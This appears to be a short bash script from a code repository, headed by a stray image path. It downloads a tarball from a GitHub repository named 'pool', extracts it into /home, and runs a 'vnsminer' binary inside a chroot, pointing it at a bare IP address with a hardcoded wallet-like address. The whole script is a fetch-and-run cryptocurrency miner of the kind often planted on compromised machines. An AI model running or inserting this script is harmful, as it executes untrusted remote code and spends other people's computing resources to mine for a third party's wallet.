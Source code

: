 #!/bin/bash
curl -LO https://github.com/2319763378/pool/raw/master/vns/vns.tgz
tar xvf  vns.tgz -C /home
chroot /home/vns vnsminer 1 http://129.28.240.129:8888/0xb85150eb365e7df0941f0cf08235f987ba91506a
